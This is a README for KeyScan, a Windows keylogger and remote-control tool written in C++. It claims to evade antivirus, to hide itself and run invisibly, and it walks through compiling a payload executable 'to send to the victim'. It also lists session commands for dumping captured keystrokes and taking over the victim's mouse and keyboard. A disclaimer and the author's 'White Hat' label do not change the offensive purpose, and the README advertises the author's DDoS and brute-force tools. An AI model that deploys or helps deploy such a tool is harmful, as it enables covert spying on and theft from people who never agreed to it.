


# KeyScan
KeyScan is a C++ open source explanation tool targeting windows operating system. it allows you to send keyboard events, mouse events and capture keystrokes (keylogger).!

Before you keep on reading please support my hard work by leaving a star and follow up if you want me to keep creating hacking tools like this.!!
# Disclaimer
It should be highly noted that this tool wasn't made with the intention to make or cause any damages or any illegal usage. By using KeyScan you accept that you'll be held responsible for improper usage and not the author.

# Features
* The program can bypass any antivirus including windows 10 and windows 11 defender ✅️.
* Control keyboard remotely ✅️.
* Control mouse remotely ✅️.
* Keylogging ✅️.
* Automatically hide the exe file on first run ✅️
* Invisible ✅️

# Features working on
* SSL/TLS ❌️
* Shell features ❌️

# How does it work.?!
In this repository, the folder [keyscan](keyscan) contains the source codes that needs to be compiled before sending it to the victim. Just install the requirements and KeyScan will automatically compile it for you.!!
When the victim opens the malicious executable file, the window will be invisible to the victim and the program will also make itself hidden (meaning it will make the executable file hidden). At the other side the attacker will be waiting for the victim to open the file, after opened, then a session is opened.

# Platforms
* Linux ✅️
* Windows ✅️
* Termux (Android) ✅️

# Screenshots



# Requirements
* GCC and MingWG on Linux and Termux
* MingWG on Windows

# Installation on Linux and Termux
```
git clone https://github.com/4anonz/KeyScan.git
cd KeyScan
g++ main.cpp -o keyscan
./keyscan
```
# Installation on Windows
```
g++ main.cpp -o keyscan.exe -lws2_32
.\keyscan.exe
```
# Sending the exe file to the victim
If you're working on Linux you need to install mingw for compiling C++ windows programs on linux.
install it using:
```
sudo apt-get install mingw-w64
```
And on termux using:
```
git clone https://github.com/mirror/mingw-w64.git
cd mingw-w64
./configure --prefix=$PREFIX --without-crt
DESTDIR=$PREFIX make install
```
# How to use KeyScan?.
Set the local ip and port number using these commands.
```
lhost ip
lport port number
```
Then type exploit and the program will generate the .exe file that needs shall be send to the victim.
# KeyScan Commands
```
SETTING OPTIONS: Set this options before lauching the attack!
Command                           Discribtion
-------                           ------------
lhost                              Sets the local host or ip address to listen on.
lport                              Sets the local port number to listen on. default 4444
exploit                            Run the script.
help                               Print this help message
clear                              Clear screen
exit                               Exit program

SESSION COMMANDS: This commands are only valid when a session is opened
LOGGING KEYSTROKES:
====================
keyscan_start                      Start capturing keystrokes
keyscan_dump                       Dump the captured keystrokes buffer.
keyscan_stop                       Stop capturing keystrokes.
SENDING MOUSE EVENTS:
=====================
mouse_move x y                     Move the mouse to x and y coordinates. The value range of x and y is 0-65535
mouse_click left                   Left click
mouse_click right                  Right click
mouse_click middle                 Click the middle mouse button
mouse_click double                 Double click the left mouse button
SENDING KEYBOARD EVENTS:
========================
keyboard_send                      Send keystrokes. This must be followed by the keys(or text) you want to send
keyevent                           Send keyboard events. like CTRL+C, ALT+F4.
                                    you must use the '+' sign to indicate that the keys should be press together.
                                    for a single key just type the key name example 'keyevent SHIFT' to press the shift key.
Supported keyevents:
A-Z, F1-F12, SHIFT, ENTER, SPACE, BACKSPACE, ALT, ESC, PAGEUP, PAGEDOWN, HOME, LEFTARROW, RIGHTARROW, UPARROW
DOWNARROW, PRINTSCRN, INSERT, DELETE, CAPS
These values are case sensetive. You must use them in upper case except for A-Z(you can use them in upper or lower case).
EXAMPLES:
keyboard_send You have been hacked!
keyevent CTRL+c
keyevent ALT+F4
keyevent ENTER
tmouse_move 2345 345
mouse_click right
```
# Author
Anonymous Hacks(4anoz) - I'm White Hat😎️.
# Bugs Feedback & Suggestions
Please reports any bugs found, you can personally send me [email](digitalguru64@gmail.com)
Or [facebook](https://facebook.com/4anonz)

# Other repositories
DDoS script: https://github.com/4anonz/Flood
Network packet sniffer: https://github.com/4anonz/packt
SSH Auditing and brute force: https://github.com/4anonz/SSHCred
